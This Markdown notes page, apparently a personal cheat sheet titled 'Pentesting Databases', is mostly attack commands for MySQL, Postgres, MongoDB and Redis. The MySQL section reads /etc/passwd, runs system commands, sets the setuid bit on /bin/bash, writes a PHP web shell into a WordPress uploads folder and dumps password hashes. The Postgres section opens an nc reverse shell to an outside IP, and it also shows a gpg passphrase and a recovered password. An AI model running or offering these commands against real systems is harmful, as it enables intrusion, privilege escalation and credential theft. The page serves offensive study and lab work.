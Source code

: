 ```yaml
---
layout: notes
permalink: /notes/tech/db/
title: Pentesting Databases
---
```


# Pentesting Databases

## Firebase
[FirebaseExploiter](https://github.com/securebinary/firebaseExploiter)

## MySQL
```bash
#Basic Commands
mysql -h [host] -p [database] -u username
show databases;
use databasename;
show tables;
select * from tablename;
describe tablename;

#Read files
select load_file("/etc/passwd");

#Run system commands
select sys_eval("whoami");
select sys_eval("chmod u+s /bin/bash");

#PHP Backdoor
SELECT "<?php echo system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/html/wp-content/uploads/shell.php";

#Exctract hashes
select concat_ws(':', user_login, user_pass) from wp_users;
```

## NoSQL
[Hacktricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection)\
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)\
[MongoDB Payloads](https://github.com/cr0hn/nosqlinjection_wordlists/blob/master/mongodb_nosqli.txt)\
[MongoDB Pentest](http://securitysynapse.blogspot.com/2015/07/intro-to-hacking-mongo-db.html)\
[Injection CheatSheet 1](https://nullsweep.com/nosql-injection-cheatsheet/)\
[Injection CheatSheet 2](https://nullsweep.com/a-nosql-injection-primer-with-mongo/)\
[Injection CheatSheet 3](https://www.infoq.com/articles/nosql-injections-analysis/)\
[Injection CheatSheet 4](https://rdsec.net/securec0ding/2019/NoSQL_Injection.html)\
[Injection CheatSheet 5](https://www.stjoern.com/menu-db/nosql)\
[Injection CheatSheet 6](https://securityintelligence.com/does-nosql-equal-no-injection/)\
[Blog part1](https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html)\
[Blog part2](https://blog.websecurify.com/2014/08/attacks-nodejs-and-mongodb-part-to.html)

```bash
#MongoDB
mongo --username "USER" --password --authenticationDatabase "DBNAME" --host "HOSTNAME" --port 27017
```

## Postgres
```bash
#Login
psql -h localhost -U dripmail_dba -d dripmail
<Password>

#Reverse Shell
COPY (SELECT pg_backend_pid()) TO PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.18 4444t >/tmp/f';

#Dump and Decrypt Database 
# 1- if user hass privileges to access postgress backups
gpg --batch --yes --passphrase "2Qa2SsBkQvsc" --pinentry-mode loopback --decrypt /var/backups/postgres/dev-dripmail.old.sql.gpg > dev-dripmail.old.sql

# 2- Read the content
cat dev-dripmail.old.sql

# 3- Decrypt hash:
victor.r : superSecretPassword!
```

## Redis
```bash
#Connect via CLI
redis-cli -u redis://xxx.example.com
redis-cli -h <hostname> -p <port> --user <username> -a <password>
redis://:<password>@<hostname>:<port>

#Default Port
nmap -p 6379 10.10.10.10

#Metasploit
use auxiliary/scanner/redis/redis_server
msf auxiliary(scanner/redis/redis_server) > set rhosts 10.10.10.10
msf auxiliary(scanner/redis/redis_server) > exploit
``` 